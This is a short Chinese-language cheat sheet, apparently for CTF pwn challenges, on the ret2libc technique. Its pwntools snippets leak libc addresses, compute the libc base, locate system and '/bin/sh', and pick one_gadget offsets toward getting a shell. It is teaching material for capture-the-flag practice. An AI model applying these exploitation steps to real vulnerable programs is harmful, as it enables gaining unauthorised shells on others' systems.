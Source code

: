 ```yaml
---
title: ret2libc
category: 栈溢出
---
```


## # 一般步骤

1. 泄露 libc 地址
2. 计算 libc 基址与其他函数的地址
3. get shell

## # 接收被泄露的 libc 地址
- 32 位程序

```python
address = u32(io.recvuntil('\xf7')[-4:])
log.success('address -> ' + hex(address))
```

- 64 位程序

```python
address = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('address -> ' + hex(address))
```

## # 计算地址

- 计算 libc 基址

```python
# ELF
libc_base = address - libc.sym['function_name']
system_addr = libc_base + libc.sym['system']
str_bin_sh = libc_base + libc.search('/bin/sh').next()
log.success('libc_base -> ' + hex(libc_base))

# LibcSearcher
libc = LibcSearcher('function_name', address)
libc_base = address - libc.dump('function_name')
system_addr = libc_base + libc.dump('system')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
log.success('libc_base -> ' + hex(libc_base))
```

- 计算 one gadget 地址

```python
one_gadget_list = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
one_gadget = libc_base + one_gadget_list[1]
log.success('one_gadget -> ' + hex(one_gadget))
```

## # 注意事项

- 下载题目文件时应注意文件中是否提供了相应的 libc 文件。若已提供相应的 libc 文件，则在调试时使用 pwntools 的 ELF 函数直接绑定该 libc。若没有提供相应的 libc 文件，则需要使用 LibcSearcher 库进行 libc 匹配。